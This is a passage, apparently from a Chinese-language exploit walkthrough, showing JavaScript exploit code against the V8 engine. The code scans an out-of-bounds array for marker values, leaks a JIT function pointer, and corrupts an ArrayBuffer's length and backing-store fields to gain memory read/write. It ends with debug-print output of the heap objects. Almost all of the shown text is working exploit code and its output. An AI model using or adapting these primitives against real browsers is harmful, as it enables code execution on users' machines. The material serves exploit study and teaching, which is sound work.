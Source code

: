 ```
                    objs.push(obj);
                }
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });

let jit_func_obj_ptr = 0;
console.log(maxSize);
for (let i = 0; i < maxSize; i++) {
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x432100000000) {
        console.log('Found', i);
        jit_func_obj_ptr = Int64.fromDouble(oobArray[i + 1]) - 1;
        console.log('JIT Function Pointer: 0x' + jit_func_obj_ptr.toString(16));
        for (let j = i + 2; j < i + 100; j++) {
            console.log("0x" + Int64.fromDouble(oobArray[j]).toString(16));
        }
        break;
    }
}

for (let i = 0; i < maxSize; i++) {
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x123400000000) {
        console.log('Found ArrayBuffer');
        changed_idx = i;
        oobArray[i] = (new Int64(0x121200000000)).asDouble();
        oobArray[i + 3] = (new Int64(0x1212)).asDouble();
        break;
    }
}

console.log("======> objs");
%DebugPrint(objs);

console.log("======> oobArray");
%DebugPrint(oobArray);

console.log("======> bufs");
%DebugPrint(bufs);

while(1);
```

我们找到`bufs`里面的第一个元素
```
======> bufs
DebugPrint: 0x25e084d8aa31: [JSArray] in OldSpace
 - map: 0x25e0f0002729 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x25e0bd805539 <JSArray[0]>
 - elements: 0x25e084d94121 <FixedArray[140]> [PACKED_ELEMENTS]
 - length: 100
 - properties: 0x25e0b2b82251 <FixedArray[0]> {
    #length: 0x25e0b2bcff89 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x25e084d94121 <FixedArray[140]> {
           0: 0x25e084d94691 <ArrayBuffer map = 0x25e0f0003fe9>
           1: 0x25e084d946e1 <ArrayBuffer map = 0x25e0f0003fe9>
           2: 0x25e084d94731 <ArrayBuffer map = 0x25e0f0003fe9>
           3: 0x25e084d94781 <ArrayBuffer map = 0x25e0f0003fe9>
```
